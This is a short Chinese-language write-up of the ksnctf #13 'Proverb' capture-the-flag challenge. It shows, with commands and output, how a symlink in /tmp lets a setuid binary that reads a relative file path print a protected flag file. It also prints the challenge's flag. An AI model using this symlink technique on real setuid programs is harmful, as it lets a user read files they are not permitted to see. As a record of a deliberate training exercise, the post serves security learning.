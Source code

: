 ```yaml
---
title: 'ksnctf #13 Proverb'
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2018-08-06 15:45:18
categories:
	- Writeups
	- ksnctf
thumbnailImage: ksnctf.png
keywords:
    - ksnctf
    - Proverb
tags:
    - Writeups
---
```

`ln -s`
<!-- more -->

登入 SSH 以後，目錄底下有 `proverb` 執行檔以及沒有權限讀取的 `flag.txt`。執行 `proverb` 後發現，會讀取 `proverb.txt` 中任一行並且印出來。
```
[q13@localhost ~]$ ll
total 28
-r-------- 6 q13a q13a    22 Jun  1  2012 flag.txt
---s--x--x 7 q13a q13a 14439 Jun  1  2012 proverb
-r--r--r-- 2 root root   755 Jun  1  2012 proverb.txt
-r--r--r-- 1 root root   151 Jun  1  2012 readme.txt
[q13@localhost ~]$ ./proverb
Fire is a good servant but a bad master.
```

有 `/tmp` 路徑可以讀寫，設想如果使用 `ln -s ` 建立檔案連結來讓 `proverb` 讀取 `flag.txt`，flag 就可以順利拿到。

```
[q13@localhost ~]$ mkdir /tmp/the0
[q13@localhost ~]$ ln -s ~/flag.txt /tmp/the0/proverb.txt
[q13@localhost ~]$ cd /tmp/the0
[q13@localhost the0]$ ll
total 0
lrwxrwxrwx 1 q13 q13 18 Aug  6 17:16 proverb.txt -> /home/q13/flag.txt
[q13@localhost the0]$ ~/proverb
FLAG_XoK9PzskYedj/T&B
```